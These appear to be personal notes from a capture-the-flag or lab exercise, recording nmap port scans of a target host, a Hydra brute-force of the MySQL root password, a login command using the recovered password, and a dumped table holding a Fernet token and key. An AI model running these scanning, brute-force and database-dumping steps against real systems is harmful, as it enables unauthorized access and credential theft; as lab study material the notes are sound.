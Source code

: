# Nmap

Scan for open ports:
```bash
nmap -Pn -p- -oN tcp_all.nmap 192.168.206.118
```
Results:
```bash
PORT     STATE SERVICE
1337/tcp open  waste
3306/tcp open  mysql
```

Enumerate services:
```bash
nmap -Pn -p 1337,3306 -sV -sC -oN tcp_services.nmap 192.168.206.118
```

# MySQL

**Version**: MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1 (protocol 10)

## Brute-force password

Hydra user "root":
![[Pasted image 20240417140728.png]]
=> pw: prettywoman

## Connect to DB

```bash
mysql --host=192.168.206.118 --user=root --password=prettywoman
```

Status:
![[Pasted image 20240417141755.png]]

## Show databases

Show databases and tables:
![[Pasted image 20240417142640.png]]
=> database "data" with table "fernet"

Dump table "fernet":
![[Pasted image 20240417142822.png]]

**cred:**
gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=

**keyy:**
UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=